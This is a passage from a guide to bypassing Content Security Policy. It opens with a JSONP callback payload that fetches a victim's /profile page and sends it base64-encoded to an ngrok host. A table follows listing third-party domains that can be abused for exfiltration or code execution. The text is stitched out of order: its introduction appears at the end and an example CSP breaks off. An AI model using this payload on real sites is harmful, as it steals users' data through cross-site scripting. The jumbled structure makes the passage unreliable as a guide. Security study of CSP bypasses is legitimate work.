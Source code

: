 ```html
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```
[**JSONBee**](https://github.com/zigoo0/JSONBee) **contains ready to use JSONP endpoints to CSP bypass of different websites.**

The same vulnerability will occur if the **trusted endpoint contains an Open Redirect** because if the initial endpoint is trusted, redirects are trusted.

### Third Party Abuses
As described in the [following post](https://sensepost.com/blog/2023/dress-code-the-talk/#bypasses), there are many third party domains, that might be allowed somewhere in the CSP, can be abused to either exfiltrate data or execute JavaScript code. Some of these third-parties are:

| Entity | Allowed Domain | Capabilities |
|--------|----------------|--------------|
| Facebook | www.facebook.com, *.facebook.com | Exfil |
| Hotjar | *.hotjar.com, ask.hotjar.io | Exfil |
| Jsdelivr | *.jsdelivr.com, cdn.jsdelivr.net | Exec |
| Amazon CloudFront | *.cloudfront.net | Exfil, Exec |
| Amazon AWS | *.amazonaws.com | Exfil, Exec |
| Azure Websites | *.azurewebsites.net, *.azurestaticapps.net | Exfil, Exec |
| Salesforce Heroku	| *.herokuapp.com | Exfil, Exec |
| Google Firebase | *.firebaseapp.com | Exfil, Exec |

If you find any of the allowed domains in the CSP of your target, chances are that you might be able to bypass the CSP by registering on the third-party service and, either exfiltrate data to that service or to execute code.

For example, if you find the following CSP:
```
Content-Security-Policy​: default-src 'self’ www.facebook.com;​
```
# Content Security Policy (CSP) Bypass

## Introduction

Content Security Policy (CSP) is a security mechanism implemented by web applications to mitigate the risk of cross-site scripting (XSS) attacks. CSP allows web developers to specify which resources (such as scripts, stylesheets, and images) are allowed to be loaded and executed by a web page. This helps prevent the execution of malicious code injected by attackers.

However, CSP can sometimes be misconfigured or bypassed, allowing attackers to circumvent its protections. In this guide, we will explore various techniques that can be used to bypass CSP and execute arbitrary code on a vulnerable web application.
